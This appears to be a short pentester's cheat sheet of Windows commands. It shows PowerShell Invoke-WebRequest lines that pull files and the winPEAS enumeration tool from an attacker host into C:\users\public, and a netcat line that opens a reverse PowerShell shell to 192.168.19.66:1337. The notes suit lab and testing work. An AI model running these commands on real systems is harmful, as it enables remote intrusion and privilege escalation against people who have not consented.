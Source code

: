# windows stuff

### enumerate windows-binaries on kali

```
apt install windows-binaries
dpkg -L windows-binaries
```


### download files using powershell

```powershell
Invoke-WebRequest -Uri "http://192.168.19.66:8000/downloadme" -OutFile "C:\Program Files (x86)\downloadme"
```

For example donwloading winpeas: The path `C:\users\public` is most of the times writable.

```powershell
Invoke-WebRequest -Uri "http://192.168.19.66:8000/winPEASx64.exe" -OutFile "C:\users\public\winPEASx64.exe"
```

### start powershell using netcat`

```
C:\users\public\nc.exe -e powershell.exe 192.168.19.66 1337
```
